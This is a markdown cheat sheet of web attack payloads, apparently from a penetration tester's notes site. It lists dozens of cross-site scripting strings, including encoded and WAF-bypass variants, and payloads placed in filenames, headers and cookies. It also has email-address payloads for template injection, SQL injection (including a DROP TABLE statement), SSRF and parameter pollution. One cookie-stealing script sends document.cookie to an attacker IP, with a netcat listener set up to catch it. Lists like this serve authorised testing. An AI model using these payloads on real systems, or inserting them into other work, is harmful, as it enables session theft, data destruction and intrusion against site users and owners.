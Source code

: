 ```yaml
---
title : "XSS"
pre : '<i class="fab fa-js"></i> '
description : "Cross-Site-Scripting payloads."
date : 2021-12-07T17:10:24+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Cross-Site Scripting (XSS)

## Test Characters

```plain
"
;
<
>
```

## Generic

```plain
<Svg/Onload=1
c5obc'+alert(1)+'p7yd5
<svg onload=alert(1)>
<script>alert(1)</script>
<</p>iframe src=javascript:alert()//
<script>alert('PoC')</script>
"><script>alert('XSS')</script>
"><script>alert(document.domain)</script>
"><img src=x onerror="alert(document.domain)">
<scr ipt>ale rt (1) </scr ipt>
%3cscript>alert('PoC')</script>
%25%33%63script>alert('PoC')</script>
&#x3c;script>alert('PoC')</script>
</script><script>alert(1)</script>
["</script><script>alert(1)</script>"]
<a href="x">test</a>
<img src=x />
<img src=x onerror="alert(1);" />
&#x3c;script>alert(1)&#x3c;/script>
<img src=x onerror="alert(document.cookie);" />
<iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';><
<a href="javascript:alert('PoC')">Click me</a>
<p><script>alert(1)</script></p>
<i nput type="text" id="search-text" name="query" value="" onfocus="alert(1)" autofocus="" />
draggable=true ondragstart="alert(1)
<IMG SRC=1 ONERROR=&#X61;&#X6C;&#X65;&#X72;&#X74;(1)>
<SVG ONLOAD=&#97&#108&#101&#114&#116(1)>
<</div>script</div>>alert()<</div>/script</div>>
"><a href=j<TAB><NEWLINE><TAB><NEWLINE><TAB><NEWLINE>avascript:confirm("payload")>XSSs</a>
```

### Content injection

In the example below, set up a NetCat listener on port 80 `sudo nc -nlvp 80`. This listener will receive a connection on success.

```plain
<iframe src=http://10.10.10.10/report height="O" width="O"></iframe>
```

### Cookie Stealing

In the example below, set up a NetCat listener on port 80 `sudo nc -nlvp 80`. This listener will receive a connection on success.

```plain
<script>new Image().src="http://10.10.10.10/nothinghere.jpg?output="+document.cookie;</script>
```

### WAF bypass

```plain
%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a
```

### XSS in filename

```plain
<img src=x onerror=alert('XSS')>.png
"><img src=x onerror=alert('XSS')>.png
"><svg onmouseover=alert(1)>.svg
<<script>alert('xss')<!--a-->a.png
```

### Host header

```plain
"> <script>alert(1)</script>
```

### Chrome and FireFox

Standard

```plain
<script>alert(1)</script>
<a href="javascript:alert(1)">XSS</a>
<a href="JaVaScript:alert(1)">XSS</a>
<iframe src="javascript:alert(1)">
<script src="data:text/javascript,alert(1)"></script>
<svg><use href="data:image/svg+xml,<svg id='x' xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' width='100' height='100'><a xlink:href='javascript:alert(1)'><rect x='0' y='0' width='100' height='100' /></a></svg>#x"></use></svg>
```

onclick

```plain
<a onclick="alert(1)">test</a>
<body onclick="alert(1)">test</body>
<textarea onclick="alert(1)">test</textarea>
<p onclick="alert(1)">test</p>
<svg onclick="alert(1)">test</svg>
<iframe onclick="alert(1)">test</iframe>
```

onmouseover

```plain
<a onmouseover="alert(1)">test</a>
<body onmouseover="alert(1)">test</body>
<p onmouseover="alert(1)">test</p>
<svg onmouseover="alert(1)">test</svg>
```

onload

```plain
<body onload=alert(1)>
<svg onload=alert(1)>
<iframe onload=alert(1)></iframe>
```

onerror

```plain
<image src/onerror=alert(1)>
<img src/onerror=alert(1)>
<script onerror=alert(1) src=/></script>
<body onerror=alert(1) onload=/>
```

### DOM-based

```plain
javascript:alert(¨DOM")
"><script>alert(document.cookie)</script>
alert(1)
alert(document.cookie)
#<script>alert('xss')</script>
```

### User-agent

```plain
</SCript><svG/onLoad=alert(document.domain)>
```

### XSS in cookie header

```plain
Cookie: PHPSESSID=hd<script>alert(document.cookie)</script>np5
```

## E-mail recipient payloads

### XSS

```plain
test+(<script>alert(0)</script>)@example.com
test@example(<script>alert(0)</script>).com
"<script>alert(0)</script>"@example.com
```

### Template injection

```plain
"<= 7 * 7 %>"@example.com
test+(${{7*7}} )@example.com
```

### SQL Injection

```plain
"' OR 1=1 -- '"@example.com
"mail'); DROP TABLE users;--"@example.com
```

### SSRF

```plain
john.doe@abc123.burpcollaborator.net
john.doe@[127.0.0.1]
```

### Parameter pollution

```plain
victim&email=attacker@example.com
```

### URL list

* [Portswigger.net Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
